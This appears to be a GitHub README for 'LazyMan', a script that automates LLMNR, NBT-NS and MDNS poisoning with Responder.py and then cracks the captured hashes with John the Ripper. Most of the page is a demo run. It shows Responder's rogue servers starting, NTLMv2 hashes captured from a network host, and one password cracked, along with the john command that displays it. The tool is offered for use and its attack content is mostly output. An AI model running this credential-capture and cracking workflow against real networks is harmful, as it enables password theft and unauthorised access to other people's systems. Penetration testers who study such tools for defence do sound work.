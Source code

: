 # LazyMan

Tool used for automatic LLMNR, NBT-NS and MDNS poisoning using Responder.py and cracks the captured hash using John.

Credits:
Laurent Gaffie (Responder.py)
openwall (John the Ripper)

==============================================================================================================================
DEMO:
==============================================================================================================================

    _                ________     ____  __          _   _ 
   | |        /\    |___  /\ \   / /  \/  |   /\   | \ | |
   | |       /  \      / /  \ \_/ /| \  / |  /  \  |  \| |
   | |      / /\ \    / /    \   / | |\/| | / /\ \ | .   |
   | |____ / ____ \  / /__    | |  | |  | |/ ____ \| |\  |
   |______/_/    \_\/_____|   |_|  |_|  |_/_/    \_\_| \_|
                                                          
----------------------------------------------------------
  ++++++++++++++++++++ Version v1 ++++++++++++++++++++++
  +++++++++++++++++++++by RAMIKAN+++++++++++++++++++++++
                                                          
 This Tool Uses Responder and John For Capturing & Cracking Password 
----------------------------------------------------------
                                                          
----------------------------------------------------------
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
  +++++++++++++++ Available Interfaces:  +++++++++++++++ 
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
----------------------------------------------------------
eth0
lo
wlan0

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
----------------------------------------------------------
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
Enter the interface name:wlan0
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
----------------------------------------------------------
  +++++++++++++++ Available IP Addresses: +++++++++++++++
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
10.2.228.136
127.0.0.1
192.168.0.10
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
----------------------------------------------------------
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
Enter your IP address:192.168.0.10
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
----------------------------------------------------------
++++++++++++++++++ Starting Responder +++++++++++++++++++ 
  ++++++++++++++Hit CTRL +C to stop +++++++++++++++++ 
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++
----------------------------------------------------------
NBT Name Service/LLMNR Responder 2.0.
Please send bugs/comments to: lgaffie@trustwave.com
To kill this script hit CRTL-C

[+]NBT-NS, LLMNR & MDNS responder started
[+]Loading Responder.conf File..
Global Parameters set:
Responder is bound to this interface: wlan0
Challenge set: 1122334455667788
WPAD Proxy Server: False
WPAD script loaded:  function FindProxyForURL(url, host){if ((host == "localhost") || shExpMatch(host, "localhost.*") ||(host == "127.0.0.1") || isPlainHostName(host)) return "DIRECT"; if (dnsDomainIs(host, "RespProxySrv")||shExpMatch(host, "(*.RespProxySrv|RespProxySrv)")) return "DIRECT"; return 'PROXY ISAProxySrv:3141; DIRECT';}
HTTP Server: ON
HTTPS Server: ON
SMB Server: ON
SMB LM support: False
Kerberos Server: ON
SQL Server: ON
FTP Server: ON
IMAP Server: ON
POP3 Server: ON
SMTP Server: ON
DNS Server: ON
LDAP Server: ON
FingerPrint hosts: False
Serving Executable via HTTP&WPAD: OFF
Always Serving a Specific File via HTTP&WPAD: OFF


[+]HTTP GET request from : 192.168.0.3. The HTTP URL requested was: / 
[+]HTTP NTLMv2 hash captured from : 192.168.0.3
Complete hash is :  hello:::1122334455667788:12D1CC1CAA36A24997ECDAE4B6B39E5B:0101000000000000F0ED5B29FAE9D101210F999A4E29F28F000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000000000000000000
[+]HTTP GET request from : 192.168.0.3. The HTTP URL requested was: / 
[+]HTTP NTLMv2 hash captured from : 192.168.0.3
Complete hash is :  hello:::1122334455667788:0C21BBA399BFD9CB1A6DA57CB92134A2:0101000000000000508E3AA9FAE9D1010B85C13C91DA8D50000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000000000000000000
^C----------------------------------------------------------
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
 +++++++++++List of NTLMv2 hashes collected:+++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
-----------------------------------------------------------
HTTP-NTLMv2-Client-192.168.0.3.txt
mkdir: cannot create directory `/usr/share/responder/oldhash': File exists
--------------------------------------------------------------------------------
mkdir: cannot create directory `/usr/share/responder/Cracked': File exists
Loaded 1 password hash (NTLMv2 C/R MD4 HMAC-MD5 [32/32])
test             (hello)
guesses: 1  time: 0:00:00:00 DONE (Sat Jul 30 01:38:27 2016)  c/s: 13907  trying: xymyx007# - dollies
Use the "--show" option to display all of the cracked passwords reliably
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
Use 'john --show /usr/share/responder/Cracked/hashlist.txt' Command to view the password 
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
--------------------------------------------------------------------------------
----------------------------------------------------------
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
 +++++++++++++++++++++Happy Cracking+++++++++++++++++++++++
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
----------------------------------------------------------

john --show /usr/share/responder/Cracked/hashlist.txt

hello:test::1122334455667788:12D1CC1CAA36A24997ECDAE4B6B39E5B:0101000000000000F0ED5B29FAE9D101210F999A4E29F28F000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000000000000000000

1 password hash cracked, 0 left

